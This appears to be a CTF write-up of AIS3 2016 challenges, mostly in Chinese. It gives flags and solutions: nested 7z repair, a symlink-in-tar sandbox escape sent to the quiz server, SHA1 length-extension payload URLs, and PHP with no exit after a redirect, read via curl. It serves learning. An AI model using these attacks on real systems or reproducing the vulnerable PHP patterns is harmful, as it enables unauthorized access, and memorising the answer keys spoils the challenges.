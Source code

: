 ## misc-1

Open the `misc1.txt`

The key is `ais3{2016_^_^_hello_world!}`

## misc-2

Hint: 7Zip

此題會給一個沒副檔名又壞掉的 [File](misc2/UNPACK_ME)

透過 [Hex Editor](http://www.azofreeware.com/2014/04/hxd-1770-hex.html) 可以發現它的 header 是一個 7z 壓縮檔

![misc2/img_misc2_1.png](misc2/img_misc2_1.png)

透過 [7Zip](http://www.7-zip.org/recover.html) 官方的說明，可以知道真正的 7z header 是 7z 不是 7Z

![misc2/img_misc2_2.png](misc2/img_misc2_2.png)

修復好並解壓縮後，會發現需要密碼，

接著可以猜密碼可能是 `UDJRRDVRJyfbWBxEMLEX`

![misc2/img_misc2_3.png](misc2/img_misc2_3.png)

成功解壓後，又獲得壞掉的壓縮檔，依照以上的修復方式，

再次解壓縮後可以得到放密碼的`secret.txt`，另一個是壞掉的壓縮檔

![misc2/img_misc2_4.png](misc2/img_misc2_4.png)

重複做了好幾次發現，這個壓縮檔可能包了好幾層...

執行以下程式，最後得到 `flag.txt`

`WeiYu$ python misc2_sol.py` 

Here is the misc2_sol.py code

``` python
#!/usr/bin/env python3

import os
import subprocess

index = 0

while True:
    archive = str(index) + '.7z'
    key_filename = str(index) + '.key'
    with open(archive, 'rb') as old_archive:
        content = old_archive.read()
        content = b'7z' + content[2:]
        archive = str(index) + '_z.7z'
        with open(archive, 'wb') as f:
            f.write(content)

        key = None
        with open(key_filename, 'r') as f:
            key = f.read().strip()
        subprocess.call('7z e ' + archive + ' -otemp' + ' -p' + key + ' -y',shell=True)

        index += 1
        os.rename("./temp/secret.txt", "./" + str(index) + ".key")

        file_list = os.listdir("./temp")
        assert len(file_list) == 1

        os.rename("./temp/" + file_list[0], "./" + str(index) + ".7z")
        pass
```

The key is `ais3{7zzZzzzZzzZzZzzZiP}`


## misc-3

Hint: symbolic link (透過 tar 可保留 synblic link)

`WeiYu$ ln -s ../flag.txt guess.txt`

`WeiYu$ tar cvf guess.tar guess.txt`

`WeiYu$ python misc3_sol.py`

Here is the misc3_sol.py code 

``` python
#!/usr/bin/env python3

import telnetlib

data = str.encode(list(open('guess.tar'))[0])
client = telnetlib.Telnet('quiz.ais3.org', 9150)
client.write(str.encode(str(len(data))) + '\n' + data)
print(client.read_all())
```
 
The key is `ais3{First t1me 1$sc4pe tHE S4nd80x}`

## crypto-1

Hint: XOR

可以透過 [xortool](https://github.com/hellman/xortool) 破解此題

以下為執行畫面
![crypto1/xortool_sol.png](crypto1/xortool_sol.png)

得到了 `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_i!ea}`

但上傳 key 的時候，發現不正確... ((崩潰 

後來發現有個英文單字拼錯，修改後，得到了通關的 key

The key is `ais3{XoR_enCrYPti0N_15_n0t_a_G00d_idea}`


## crypto-2

Source Code

``` php
<?php
    $path = "..";
    $file = "flag.txt";
    $authenticated = false;
    $secret = trim(file_get_contents("$path/$file"));
    assert(strlen($secret) <= 60);

    if(isset($_GET['expire']) && isset($_GET['auth'])) {
        $expire = $_GET['expire'];
        $auth = $_GET['auth'];
        $qstr = substr(strstr($_SERVER['REQUEST_URI'], '?'), 1);
        $qstr = preg_replace('/&auth=.*/', '', $qstr);
        $qstr = urldecode($qstr);
        if(sha1($secret . "$qstr") === $auth) {
            if($expire > time(0)) {
                $authenticated = true;
            }
        }
    } else {
        $expire = time(0) - 1000000;
        $auth = sha1($secret . "expire=$expire");
        $uri = preg_replace('/\?.*/', '', $_SERVER['REQUEST_URI']);
        header("HTTP/1.1 302 Found");
        header("Location: $uri?expire=$expire&auth=$auth");
        die;
    }
?>
```

這篇參考了 PCC 的 [Writeup](https://github.com/pcchou/ctf-writeups/blob/master/2016/tw-edu-ctf/LEA/README.md") 

得知此題是 `length extension attack` 處理

Payload 1
```
https://quiz.ais3.org:8014/?expire=1467343030%80%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%00%01h
&expire=2467343030&auth=b3afa04f67bff2c22754d4313a91b82cf2ad0eb0
```
Padload 2
```
https://quiz.ais3.org:8014/?expire=1467346517&auth=5c85f041d3de578d2acca06a90cf83633129e24e
&expire=12467346517
```

The key is `ais3{HasH.eXtension.@tt@ck!}`

## web-1

開啟 [web1](https://quiz.ais3.org:8011) 看到以下內容

```
There is a secret page in these website. Even Google can not find it, can you?
```

推測是 `robots.txt`，得到了以下資訊

```
User-agent: *
Disallow: /admin
Disallow: /cgi-bin/
Disallow: /images/
Disallow: /tmp/
Disallow: /private/
Disallow: /this_secret_page_you_should_not_know_where_it_is.php
```

開啟 [`https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php`](https://quiz.ais3.org:8011/this_secret_page_you_should_not_know_where_it_is.php)


The key is `ais3{Y0u_beat_the_G00g1e!!}`


## web-2

開啟 [web2](https://quiz.ais3.org:8012/)

``` php
<?php
error_reporting(0);
include "flag.php";

// Strong IP firewall, no-one can pass this except the admin in localhost
if ($_SERVER['REMOTE_ADDR'] !== '127.0.0.1')
{
header("Location: you_should_not_pass");
}
?>

<!DOCTYPE html>
<html>
<head>
<meta charset="UTF-8">
<title>Admin Panel</title>
</head>
<body>
Admin's secret is: <?php echo $flag; ?>
</body>
</html>
```

可以看到這段 php 沒有 `exit` 跟 `die`，因此 body content 還是會輸出

```
WeiYu$ curl https://quiz.ais3.org:8012/

<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Admin Panel</title>
</head>
<body>
Admin's secret is: ais3{admin's_pane1_is_on_fir3!!!!!}
</body>
</html>
```

The key is `ais3{admin's_pane1_is_on_fir3!!!!!}`


## web-3

開啟 [web3](https://quiz.ais3.org:8013/)

可以自己架起來玩 [PHP](web3/)




